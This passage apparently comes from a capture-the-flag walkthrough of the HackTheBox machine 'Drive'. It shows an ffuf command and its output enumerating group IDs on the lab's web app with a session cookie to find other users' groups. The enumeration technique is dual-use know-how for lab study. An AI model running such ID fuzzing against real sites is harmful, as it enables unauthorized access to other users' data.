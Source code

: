 #### Groups

The URL for a group is `/[id]/getGroupDetail/`. Similarly, the URL for a file
is `/[id]/getFileDetail/`. I’ll test to see how other ids respond. For
example, groups:

    
    
    oxdf@hacky$ ffuf -u http://drive.htb/FUZZ/getGroupDetail/ -w <(seq 1 500) -fc 500  -H "Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu"
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://drive.htb/FUZZ/getGroupDetail/
     :: Wordlist         : FUZZ: /dev/fd/63
     :: Header           : Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
     :: Filter           : Response status: 500
    ________________________________________________
    
    28                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 364ms]
    39                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 374ms]
    40                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 401ms]
    42                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 302ms]
    47                      [Status: 200, Size: 5407, Words: 1244, Lines: 193, Duration: 300ms]
    49                      [Status: 200, Size: 5407, Words: 1244, Lines: 193, Duration: 293ms]
    48                      [Status: 200, Size: 5406, Words: 1244, Lines: 193, Duration: 299ms]
    :: Progress: [500/500] :: Job [1/1] :: 142 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
    

Here, I have `ffuf` hit `http://drive.htb/FUZZ/getGroupDetail/` to check for
all group numbers. For the wordlist, I’ll use `-w <(seq 1 500)`, which uses
[process substitution](https://en.wikipedia.org/wiki/Process_substitution) to
pretend there’s a file containing the numbers 1 through 500 one per line. `-fc
500` will hide results that return HTTP 500, which is what happens when
there’s a non-existent id. I’ll also need to include my cookie, which I can
grab from Burp.

I’ll note that the last three are groups I created (47-49) and return 200. The
others, 28, 39, 40, and 42, return 401. Trying to visit these return 401
Unauthorized:
